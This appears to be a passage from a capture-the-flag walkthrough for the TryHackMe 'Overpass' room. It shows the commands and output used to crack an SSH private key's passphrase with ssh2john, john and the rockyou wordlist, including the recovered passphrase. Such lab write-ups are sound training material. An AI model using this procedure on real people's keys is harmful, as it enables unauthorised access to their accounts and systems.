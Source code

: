 <p align="center"><img src="./files/PK.png"></p>

We need to crack the password of the private key in order to login. I used an additional tool called `ssh2john` which changes the format of the SSH private key to a format which is crackable for `john`. Then cracked its password using `john` and `rockyou` wordlist.

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Overpass/files]
└─$ locate ssh2john                                            
/usr/share/john/ssh2john.py
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Overpass/files]
└─$ /usr/share/john/ssh2john.py priv.key > key.hash                     
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Overpass/files]
└─$ john key.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (priv.key)
Warning: Only 1 candidate left, minimum 4 needed for performance.
1g 0:00:00:04 DONE (2021-10-14 02:57) 0.2386g/s 3422Kp/s 3422Kc/s 3422KC/s *7¡Vamos!
Session completed
~~~
